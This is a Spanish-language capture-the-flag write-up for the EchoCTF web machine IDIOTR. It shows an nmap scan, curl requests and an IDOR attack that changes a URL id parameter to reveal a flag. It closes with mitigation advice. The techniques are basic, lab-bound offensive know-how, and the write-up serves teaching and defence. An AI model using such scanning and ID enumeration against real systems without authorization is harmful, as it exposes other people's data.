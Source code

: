 # **IDIOTR**


![idiotr1](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/IDIOTR/idiotr1.png)
## **Introducción**

La máquina **IDIOTR** de **EchoCTF** presenta un reto web que oculta una única bandera, la cual se puede obtener al explotar una vulnerabilidad del tipo **IDOR** (*Insecure Direct Object References* o Referencias Inseguras a Objetos Directos). Esta clase de vulnerabilidad permite acceder a recursos que normalmente deberían estar restringidos, simplemente manipulando parámetros en la URL.

**IP:** `10.0.41.2`

---

## **Reconocimiento y Escaneo**

Comenzamos el reconocimiento de la máquina **IDIOTR** con un escaneo de puertos utilizando **Nmap**. El comando utilizado fue:

```bash
nmap -sSC -vv -p- 10.0.41.2
```

**Resultado:**
```
PORT     STATE SERVICE REASON
1337/tcp open  waste   syn-ack ttl 63
```

El puerto **1337** se encuentra abierto. Al realizar una conexión HTTP a la IP `10.0.41.2` en dicho puerto, se carga una página web con una interfaz básica, donde encontramos un menú con diferentes secciones: *Home*, *About*, *Blogs* y *Secret*.

![iditr2](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/IDIOTR/idiotr2.png)

---

## **Inspección del Código Fuente**

Usamos `curl` para verificar el contenido del sitio web desde la terminal:

```bash
curl http://10.0.41.2:1337/
```

Dentro del código fuente se observa el siguiente patrón de navegación:

```html
<a class="nav-link" href="/">Home</a>
<li class="nav-item active">
  <a class="nav-link" href="/?id=2">About</a>
</li>
<li class="nav-item active">
  <a class="nav-link" href="/?id=3">Blogs</a>
</li>
<li class="nav-item active">
  <a class="nav-link" href="/?id=4">Secret</a>
</li>
```

Esto indica que el sitio gestiona el contenido mediante una variable `id`, lo cual es un patrón típico de **IDOR**. Las secciones visibles van desde `id=2` hasta `id=4`.

---

## **Exploración de IDOR**

Probamos buscar cadenas relacionadas con la bandera utilizando `curl` y `grep` para extraer líneas relevantes:

```bash
curl http://10.0.41.2:1337/?id=4 | grep "ETSCTF"
```

Tras probar los valores conocidos (`id=2` al `id=4`) sin obtener resultados, decidimos probar otros valores no listados, como `id=1`:

```bash
curl http://10.0.41.2:1337/?id=1 | grep "ETSCTF"
```

**Respuesta:**
```SHELL 
<p>Now You know why its called Insecure Direct Object Reference ETSCTF_DDDDDDDDDDDDDDDDDDDDDD</p>
```

Con esto confirmamos que el parámetro `id` no está validado adecuadamente, y se puede manipular directamente para acceder a información sensible.

---

## **Identificación de Vulnerabilidades**

La vulnerabilidad identificada es una **IDOR (Insecure Direct Object Reference)**. Este tipo de falla ocurre cuando el sistema permite acceder directamente a objetos mediante identificadores predecibles o manipulables (por ejemplo, `id=1`, `id=2`, etc.), sin verificar si el usuario está autorizado para ver ese contenido.

Esta exposición permite que un atacante acceda a información confidencial simplemente modificando el valor de un parámetro en la URL, como ocurrió en este caso.

---

## **Medidas de Mitigación**

Para evitar vulnerabilidades del tipo IDOR, se deben seguir las siguientes buenas prácticas:

- **Control de Acceso a Nivel de Objeto:** No basta con ocultar recursos. Es fundamental verificar si el usuario tiene permisos para acceder al recurso solicitado, incluso si la solicitud parece válida.

- **Validación de Parámetros:** Los valores pasados por URL deben ser validados rigurosamente antes de procesar la petición.

- **Uso de identificadores no predecibles:** Evitar el uso de valores secuenciales (`id=1`, `id=2`, etc.). En su lugar, utilizar identificadores UUID u otras estrategias que dificulten el acceso arbitrario.

- **Registros y alertas:** Monitorear el acceso a parámetros críticos y generar alertas ante comportamientos anómalos, como exploraciones de múltiples IDs.

```c
Writeup Made With ❤️ By SheepsStealer
```